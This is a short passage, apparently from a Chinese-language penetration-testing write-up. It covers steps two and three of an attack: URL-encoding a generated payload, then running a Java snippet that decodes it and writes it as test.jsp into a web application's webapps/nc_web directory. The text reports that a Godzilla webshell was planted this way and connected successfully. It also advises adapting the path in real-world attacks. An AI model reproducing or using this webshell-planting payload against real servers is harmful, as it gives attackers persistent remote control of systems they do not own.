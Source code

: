 2、再把输出结果进行 url 编码

![image_zZUpiKMWn1.png](assets/1698900866-a1c114681bab98ba5c2535df0b514c19.png)

3、payload 字段如下，这里写入默认路径为 webapps/nc\_web，实战中灵活应变

```php
String keyWord = URLDecoder.decode("xxxxxx（填入生成内容）xxxxxx", "utf-8");    
BufferedWriter out = new BufferedWriter(new FileWriter("/webapps/nc\_web/test.jsp"));  
out.write(keyWord);  
out.close();
```

这里直接写入哥斯拉马，连接成功

![b8xw2a-s9d_hjEIes_edE.png](assets/1698900866-d81d0257c12d1ae568edf919f780ac0b.png)
